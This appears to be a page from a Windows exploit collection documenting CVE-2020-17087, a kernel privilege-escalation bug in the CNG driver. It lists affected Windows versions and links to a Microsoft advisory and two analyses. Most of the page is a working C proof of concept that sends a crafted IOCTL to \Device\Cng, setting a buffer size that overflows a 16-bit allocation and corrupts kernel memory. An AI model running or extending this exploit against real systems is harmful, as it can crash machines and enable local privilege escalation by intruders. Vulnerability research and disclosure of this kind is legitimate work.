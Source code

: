 ###  CVE-2020-17087

#### Describe

Windows Kernel Local Elevation of Privilege Vulnerability

#### ImpactVersion

| Product             | CPU Architecture | Version | Update | Tested |
| :------------------ | :--------------- | ------- | ------ | ------ |
| Windows Server 2019 |                  |         |        |        |
| Windows Server 2012 |                  | R2      |        |        |
| Windows Server 2012 |                  |         |        |        |
| Windows Server 2008 | X64              | R2      | SP1    |        |
| Windows Server 2008 | X86/X64          |         | SP2    |        |
| Windows RT 8.1      |                  |         |        |        |
| Windows 8.1         | X86/X64          |         |        |        |
| Windows 7           | X86/X64          |         | SP1    |        |
| Windows Server 2016 |                  |         |        |        |
| Windows 10          | X86/X64          | 1607    |        |        |
| Windows 10          |                  |         |        |        |
| Windows 10          | X86/X64/ARM64    | 20H2    |        |        |
| Windows 10          | X86/X64/ARM64    | 2004    |        |        |
| Windows 10          | X86/X64/ARM64    | 1903    |        |        |
| Windows 10          | X86/X64/ARM64    | 1909    |        |        |
| Windows 10          | X86/X64/ARM64    | 1809    |        |        |
| Windows 10          | X86/X64/ARM64    | 1803    |        |        |
| Windows Server      |                  | 20H2    |        |        |
| Windows Server      |                  | 2004    |        |        |
| Windows Server      |                  | 1903    |        |        |
| Windows Server      |                  | 1909    |        |        |

#### Patch

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-17087
```

#### Utilization

```
#pragma comment(lib, "ntdll")

#include <cstdio>
#include <windows.h>

int main() {
  HANDLE hCng = CreateFileA("\\\\.\\GLOBALROOT\\Device\\Cng",
    GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);

if (hCng == NULL) {
  printf("[-] Failed to open \\Device\\Cng: %u\n", GetLastError());
  return 1;
}

printf("[+] \\Device\\Cng opened, handle: %p\n", hCng);

//
// DataBufferSize overflows when used for allocating memory in
// cng!CfgAdtpFormatPropertyBlock as (uint16)(DataBufferSize * 6).
//
// In this proof-of-concept, an allocation of (uint16)(0x2AAB * 6) = 2
// bytes is requested while 0x2AAB * 6 = 0x10002 bytes are written to it.
//
CONST DWORD DataBufferSize = 0x2AAB;
CONST DWORD IoctlSize = 4096 + DataBufferSize;
BYTE *IoctlData = (BYTE *)HeapAlloc(GetProcessHeap(), 0, IoctlSize);

RtlZeroMemory(IoctlData, IoctlSize);

*(DWORD*)    &IoctlData[0x00] = 0x1A2B3C4D;
*(DWORD*)    &IoctlData[0x04] = 0x10400;
*(DWORD*)    &IoctlData[0x08] = 1;
*(ULONGLONG*)&IoctlData[0x10] = 0x100;
*(DWORD*)    &IoctlData[0x18] = 3;
*(ULONGLONG*)&IoctlData[0x20] = 0x200;
*(ULONGLONG*)&IoctlData[0x28] = 0x300;
*(ULONGLONG*)&IoctlData[0x30] = 0x400;
*(DWORD*)    &IoctlData[0x38] = 0;
*(ULONGLONG*)&IoctlData[0x40] = 0x500;
*(ULONGLONG*)&IoctlData[0x48] = 0x600;
*(DWORD*)    &IoctlData[0x50] = DataBufferSize; // OVERFLOW
*(ULONGLONG*)&IoctlData[0x58] = 0x1000;
*(ULONGLONG*)&IoctlData[0x60] = 0;
RtlCopyMemory(&IoctlData[0x200], L"FUNCTION", 0x12);
RtlCopyMemory(&IoctlData[0x400], L"PROPERTY", 0x12);

ULONG_PTR OutputBuffer = 0;
DWORD BytesReturned;
BOOL Status = DeviceIoControl(
  hCng,
  0x390400,
  IoctlData,
  IoctlSize,
  &OutputBuffer,
  sizeof(OutputBuffer),
  &BytesReturned,
  NULL
);

printf("[+] Ioctl sent, Status: %d, OutputBuffer: %zx\n", Status, OutputBuffer);

HeapFree(GetProcessHeap(), 0, IoctlData);
CloseHandle(hCng);

return 0;
}
```



#### Analyse

- https://blog.csdn.net/weixin_43815930/article/details/114123728
- https://www.anquanke.com/post/id/221964



